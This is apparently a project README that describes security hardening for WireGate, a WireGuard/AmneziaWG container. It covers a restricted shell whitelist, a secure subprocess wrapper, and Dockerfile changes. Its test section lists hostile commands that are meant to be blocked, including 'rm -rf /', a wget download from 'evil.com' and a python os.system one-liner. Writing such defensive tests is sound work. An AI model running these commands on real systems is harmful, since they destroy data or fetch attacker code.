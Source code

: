 # WireGate Security Hardening

This document describes the security hardening measures implemented for WireGate to create a restricted root user environment.

## Overview

WireGate now runs with a restricted root user that can only execute specific commands needed for WireGuard, AmneziaWG, and iptables operations. This significantly reduces the attack surface and prevents arbitrary command execution.

## Security Features

### 1. Restricted Shell (`restricted_shell.sh`)

The restricted shell wrapper validates all commands and arguments before execution:

- **Whitelist Approach**: Only pre-approved commands can execute
- **Argument Validation**: Each command's arguments are validated against allowed patterns
- **Command Chaining Prevention**: Prevents command injection via `;`, `|`, `&&`, `||`
- **Path Validation**: Ensures commands can only access allowed directories

#### Allowed Commands:
- **WireGuard**: `wg`, `wg-quick`
- **AmneziaWG**: `awg`, `awg-quick`, `amneziawg-go`
- **Network**: `iptables`, `ip6tables`, `tc`, `ip`
- **System**: `modprobe`, `lsmod`, `ps`, `pgrep`, `pkill`, `kill`
- **File Ops**: `chmod`, `chown`, `mkdir`, `ln`, `rm`, `find`, `mknod`
- **Text Processing**: `tail`, `grep`, `sed`, `awk`
- **Network Utils**: `curl`, `netstat`, `hostname`
- **System Utils**: `base64`, `head`, `sleep`, `date`, `echo`, `printf`
- **Custom**: `tor`, `torflux`, `vanguards`, `traffic-weir`

### 2. Secure Command Executor (`secure_command_executor.py`)

Python wrapper that replaces all `subprocess` calls with secure alternatives:

- **Command Validation**: Validates commands before execution
- **Argument Sanitization**: Ensures arguments match allowed patterns
- **Error Handling**: Proper error handling and logging
- **Async Support**: Supports both sync and async command execution

### 3. Security Configuration (`security_config.py`)

Comprehensive security policies:

- **Path Whitelisting**: Only allows access to specific directories
- **File Extension Filtering**: Only allows safe file types
- **Size Limits**: Enforces maximum file sizes
- **Pattern Blocking**: Blocks dangerous patterns in content
- **Input Sanitization**: Sanitizes filenames and paths

### 4. Applied Security Patches

Automated patching system that replaces vulnerable code:

- **Subprocess Replacement**: All `subprocess.run()` calls replaced with `secure_run()`
- **Import Injection**: Automatically adds secure executor imports
- **Code Analysis**: Identifies and patches vulnerable patterns

## Implementation Details

### Dockerfile Changes

```dockerfile
# Copy and setup restricted shell
COPY ./Src/restricted_shell.sh /WireGate/restricted_shell.sh
COPY ./Src/secure_command_executor.py /WireGate/secure_command_executor.py
RUN chmod +x /WireGate/restricted_shell.sh && \
    chmod +x /WireGate/secure_command_executor.py

# Create restricted root user setup
RUN echo '#!/bin/bash' > /usr/local/bin/restricted_bash && \
    echo 'exec /WireGate/restricted_shell.sh bash "$@"' >> /usr/local/bin/restricted_bash && \
    chmod +x /usr/local/bin/restricted_bash

# Set restricted shell as default for root
RUN echo '/usr/local/bin/restricted_bash' >> /etc/shells

# Apply security patches
COPY ./Src/apply_security_patches.py /WireGate/apply_security_patches.py
RUN chmod +x /WireGate/apply_security_patches.py && \
    cd /WireGate && python3 apply_security_patches.py
```

### Usage in Code

Replace subprocess calls with secure alternatives:

```python
# Before (vulnerable)
import subprocess
result = subprocess.run(['wg', 'show'], capture_output=True, text=True)

# After (secure)
from secure_command_executor import secure_run
result = secure_run(['wg', 'show'], capture_output=True, text=True)
```

## Security Benefits

### 1. Command Injection Prevention
- **Before**: Any command could be executed via subprocess
- **After**: Only whitelisted commands can execute

### 2. Path Traversal Protection
- **Before**: Files could be written anywhere
- **After**: Files can only be written to allowed directories

### 3. File Upload Security
- **Before**: Any file type could be uploaded
- **After**: Only specific file types with size limits

### 4. Input Validation
- **Before**: Limited input validation
- **After**: Comprehensive pattern-based validation

## Testing the Restrictions

### Test Allowed Commands
```bash
# These should work
/WireGate/restricted_shell.sh wg show
/WireGate/restricted_shell.sh iptables -L
/WireGate/restricted_shell.sh ps aux
```

### Test Blocked Commands
```bash
# These should fail
/WireGate/restricted_shell.sh rm -rf /
/WireGate/restricted_shell.sh wget http://evil.com/script.sh
/WireGate/restricted_shell.sh python -c "import os; os.system('id')"
```

## Monitoring and Logging

All command executions are logged with:
- Command executed
- Arguments provided
- Execution result
- Timestamp
- User context

## Maintenance

### Adding New Commands

1. Add command to `ALLOWED_COMMANDS` in `restricted_shell.sh`
2. Define allowed argument patterns
3. Update `secure_command_executor.py` if needed
4. Test thoroughly

### Updating Security Policies

1. Modify patterns in `security_config.py`
2. Update file extension whitelist
3. Adjust size limits as needed
4. Test with edge cases

## Compliance

This security hardening addresses:
- **OWASP Top 10**: Command injection, path traversal, file upload vulnerabilities
- **CIS Controls**: Secure configuration, access control
- **NIST Guidelines**: Defense in depth, least privilege

## Conclusion

The restricted root user setup provides significant security improvements while maintaining full functionality for WireGuard, AmneziaWG, and iptables operations. The whitelist approach ensures that even if an attacker gains access, they can only execute pre-approved commands within defined parameters.
